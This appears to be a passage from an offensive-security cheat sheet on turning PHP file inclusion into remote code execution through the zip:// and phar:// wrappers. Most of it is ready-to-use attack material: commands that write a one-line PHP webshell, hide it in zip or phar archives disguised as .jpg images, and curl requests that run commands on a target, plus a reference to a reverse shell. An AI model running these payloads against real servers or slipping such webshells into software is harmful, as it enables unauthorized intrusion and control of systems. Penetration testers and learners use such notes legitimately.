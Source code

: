 ### ZIP

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper (not enabled by default) allows to achieve RCE by archiving a webshell into a zip file ending in an allowed extension, e.g. `.jpg`. The files within the archived can be reached using `#`. This has a higher chance to work if ZIP uploads are allowed by the application, as content-type filters may block it.

{% code overflow="wrap" %}
```shell
# Create and archive a webshell (zip file = shell.jpg)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# Upload → RCE (URL-encode '#' -> %23)
curl http://<ip:port>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
{% endcode %}

If ZIP uploads are allowed or the application stores the uploaded files in ZIP format, the shell can be uploaded directly and then accessed with or without the extension (depending on the code implementation):

{% code overflow="wrap" %}
```bash
$ curl --path-as-is "http://target-instance/index.php?file=zip://uploads/upload_1754572937.zip%23php-reverse-shell"
```
{% endcode %}

### Phar

We can also use the `phar://` wrapper to achieve RCE. The script below can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which can be accessed using `/`.

{% code title="shell.php" %}
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
{% endcode %}

{% code overflow="wrap" %}
```shell
# Compiling the script into a phar file called 'shell.jpg'
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
# Upload -> RCE (URL-encode '/' -> %2F)
curl http://<ip:port>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
{% endcode %}
